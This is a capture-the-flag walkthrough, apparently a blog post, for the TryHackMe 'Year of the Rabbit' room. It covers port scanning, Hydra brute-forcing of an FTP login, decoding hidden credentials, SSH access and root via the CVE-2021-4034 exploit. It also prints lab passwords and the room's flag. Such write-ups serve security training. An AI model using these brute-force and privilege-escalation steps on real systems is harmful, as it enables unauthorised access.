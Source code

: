 ```yaml
---
title: "Year of the Rabbit"
date: 2022-08-30 10:00:40 +0530
categories: [TryHackMe, THM-Linux]
tags: [Machines,Linux]
image: /assets/img/yearOfRabbit/profile.png
---
```


This is the [tryhackme](https://tryhackme.com/room/yearoftherabbit) room with difficult level `easy`.

## Enumeration.
### nmap scanning.

**Command.**
```
 nmap -sC -sV 10.10.59.107 -oN nmap-scan 
```
**Results**
```
# Nmap 7.92 scan initiated Fri May 20 22:37:30 2022 as: nmap -sC -sV -oN nmap-scan 10.10.59.107
Nmap scan report for 10.10.59.107
Host is up (0.16s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.10 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 20 22:38:15 2022 -- 1 IP address (1 host up) scanned in 45.31 seconds
```

### Burp-suit.

![image](/assets/img/yearOfRabbit/burp.png)

**Visit  the hidden directory**
```
GET /intermediary.php?hidden_directory=/WExYY2Cv-qU 
```
Then navigate to ``http://thm-machine-ip/WExYY2Cv-qU/``

This will lead us to the directory which has an image named as ``Hot_Babe.png.`` I renamed it to `bae.png.`
![image](/assets/img/yearOfRabbit/bae.png)

**Checking if there is any message in the image.**
```
┌──(egovridc㉿egovridc)-[~/C7F5/thm/yearOfrabbit]
└─$ strings bae.png
```
We found a message as shown below.


>message from image
>
>Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:


## Brute-force ftp password.
```
┌──(egovridc㉿egovridc)-[~/C7F5/thm/yearOfrabbit]
└─$ hydra -l ftpuser -P "ftp-passwds" -s 21 -o "ftp-results" ftp://10.10.59.107 
```
**Result.**
```
password: 5iez1wGXKfPKQ
```

## Login to ftp server.

```
┌──(egovridc㉿egovridc)-[~/C7F5/thm/yearOfrabbit]
└─$ ftp 10.10.59.107
Connected to 10.10.59.107.
220 (vsFTPd 3.0.2)
Name (10.10.59.107:egovridc): ftpuser
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

**List ftp files.**
```
ftp> ls 
229 Entering Extended Passive Mode (|||33780|).
150 Here comes the directory listing.
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.
```

**Download  Eli's_Creds.txt from ftp server.**
```
ftp> get Eli's_Creds.txt
local: Eli's_Creds.txt remote: Eli's_Creds.txt
229 Entering Extended Passive Mode (|||12303|).
150 Opening BINARY mode data connection for Eli's_Creds.txt (758 bytes).
100% |*************************************************************************|   758      622.04 KiB/s    00:00 ETA
226 Transfer complete.
758 bytes received in 00:00 (4.46 KiB/s)
ftp> 
```

**Reading Eli's_Creds.txt.**
```
┌──(egovridc㉿egovridc)-[~/C7F5/thm/yearOfrabbit]
└─$ cat Eli\'s_Creds.txt 
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

The file is obfuscated  with brainfuck, so i decided to use online [brainfuck](https://www.dcode.fr/brainfuck-language) tool to decrypt.

**Results**
```
User: eli
Password: DSpDiM1wAEwid
```

## Login into Eli's machine by using ssh.

**ssh**
```
┌──(egovridc㉿egovridc)-[~/C7F5/thm/yearOfrabbit]
└─$ ssh eli@10.10.59.107 
```

>message from root 
>
>1 new message
>
>Message from Root to Gwendoline:
>"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"
>
>END MESSAGE
 
## User privilege escalation.

### Find secret message from root.
 
**s3cr3t**
```
eli@year-of-the-rabbit:~$ find /  -name *s3cr3t* 2>/dev/null
/var/www/html/sup3r_s3cr3t_fl4g.php
/usr/games/s3cr3t
```

**Reading the file.**
```
eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```
It contains password for user gwendoline.

**Switch to user gwendoline.**
```
eli@year-of-the-rabbit:/usr/games/s3cr3t$ su gwendoline
Password: 
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$ whoami
gwendoline
```

## Root privilege escalation.

`CVE-2021-4034`
Send the files to the victim machine and run `make` then `exploit`
Results.

**Root user**
```
gwendoline@year-of-the-rabbit:~$ make
gcc -shared -o evil.so -fPIC evil-so.c
gcc exploit.c -o exploit
gwendoline@year-of-the-rabbit:~$ ls
evil.so  evil-so.c  exploit  exploit.c  Makefile  user.txt
gwendoline@year-of-the-rabbit:~$ ./exploit 
# cd /root
# ls
root.txt
# cat root.txt
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
# 
```

**End.**